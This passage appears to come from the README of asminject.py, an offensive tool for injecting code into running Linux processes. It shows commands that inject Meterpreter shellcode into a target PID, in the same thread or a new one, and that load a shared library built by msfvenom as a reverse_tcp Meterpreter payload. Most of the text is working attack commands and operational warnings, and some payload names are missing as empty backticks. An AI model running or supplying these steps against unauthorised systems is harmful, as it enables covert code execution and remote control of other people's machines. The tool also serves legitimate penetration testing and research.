 Warnings:

* The code for the original process will not continue executing after the shellcode is launched. See the threaded version below if you need that.
* The original process will exit when Meterpreter exits.

## Inject shellcode into a separate thread of an existing process

The `` payload is identical to the `` payload described above, except it executes the precompiled binary shellcode in a separate thread. This allows the target process to continue executing normally.

This payload requires relative offsets for `libpthread` shared library used by the target process.

```
# ./get_relative_offsets.sh /usr/lib/x86_64-linux-gnu/libpthread-2.33.so > relative_offsets-libpthread-2.33.txt

# python3 ./asminject.py 1955172 asm/x86-64/execute_precompiled_threaded.s --relative-offsets relative_offsets-libpthread-2.33.txt --stop-method "slow" --precompiled lmrt11443
```

Warnings:

* The original process will still exit if your shellcode triggers an OS-level process exit. Meterpreter's default configuration does this, and as of this writing, the Linux version of Meterpreter does not have an equivalent of the Windows Meterpreter `EXITFUNC=thread` option, so the only workaround is to not call `exit` in Meterpreter until you want the target process to exit.

## Inject a Linux shared library (.so) file into an existing process, like the original dlinject.py

The `dlinject.s` payload mimics the original `dlinject.py`, except that it does so using the `dlopen` function exported by `libdl` instead of the secret `_dl_open` function that some versions of the `ld` library exported. This works around [dlinject.py's inability to run on more recent Linux versions](https://github.com/DavidBuchanan314/dlinject/issues/8).

This payload requires one variable: `librarypath`, which should point to the library you want to inject.

This payload requires relative offsets for the `libdl` shared library used by the target process.

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf-so -o lmrt11443.so LHOST=127.0.0.1 LPORT=11443

# ./get_relative_offsets.sh /usr/lib/x86_64-linux-gnu/libdl-2.33.so > relative_offsets-libdl-2.33.txt

# python3 ./asminject.py 1957286 asm/x86-64/dlinject.s --relative-offsets relative_offsets-libdl-2.33.txt  --stop-method "slow" --var librarypath "/home/user/lmrt11443.so"
```

The injection comes with the same warnings as for `execute_precompiled.s*`, above.

## Inject a Linux shared library (.so) file into a new thread in an existing process

